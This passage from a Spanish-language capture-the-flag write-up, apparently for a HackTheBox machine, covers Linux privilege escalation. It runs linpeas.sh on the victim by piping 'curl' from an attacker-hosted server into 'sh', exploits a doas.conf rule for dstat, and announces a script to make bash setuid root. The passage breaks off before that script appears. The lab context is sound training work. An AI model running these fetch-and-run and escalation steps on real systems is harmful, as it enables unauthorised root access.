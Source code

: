 Aquí puedes descargar el **linpeas.sh**, solo dale click y te lo descarga:
* https://github.com/carlospolop/PEASS-ng/releases/tag/20230409

Bien, ahora, como lo indica el **LinPEAS**, que viene aquí:
* https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS

Vamos a levantar un servidor para poder usar el **linpeas.sh**:
```bash
python3 -m http.server 80                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Y dentro de la máquina víctima, usaremos **curl** para poder usarlo:
```bash
player@soccer:~$ curl 10.10.14.16:80/linpeas.sh | sh
  % Total    % Received % Xferd  Average Speed   Time    Time     Time  Current
                                 Dload  Upload   Total   Spent    Left  Speed
  0     0    0     0    0     0      0      0 --:--:-- --:--:-- --:--:--     0
...
```

Poco a poco, nos dirá que vulnerabilidades tiene, pero hay una que nos va a servir mucho:
```bash
╔══════════╣ Checking doas.conf
permit nopass player as root cmd /usr/bin/dstat
```
¿Qué es eso del **doas.conf**?

| **doas.conf** |
|:-----------:|
| *doas es un programa para ejecutar comandos como otro usuario. El administrador del sistema puede configurarlo para otorgar privilegios a usuarios específicos para ejecutar comandos específicos.*|

<br>

Entonces podemos usar este para poder darnos privilegios, busquemos donde se encuentra ese programa:
```bash
player@soccer:~$ find / -type d -name dstat 2>/dev/null
/usr/share/doc/dstat
/usr/share/dstat
/usr/local/share/dstat
```

Excelente, si buscamos por **GTFObins**, encontramos que dentro del directorio **/usr/local/share/dstat**, es donde podemos hacer un archivo que nos dará privilegios:
* https://gtfobins.github.io/gtfobins/dstat/

Lo que vamos a hacer, será crear un archivo en **Python** que cambie los permisos de la **Bash** para que cualquiera pueda ser **Root**, justo como lo indica el siguiente blog, de aquí saque la forma de buscar el **dstat**, un excelente blog con buenas notas, guárdenlo para el futuro:
* https://exploit-notes.hdks.org/exploit/linux/privilege-escalation/sudo/sudo-dstat-privilege-escalation/

Hagamos el script:
```bash
player@soccer:/usr/local/share/dstat$ nano dstat_exploit.py
```
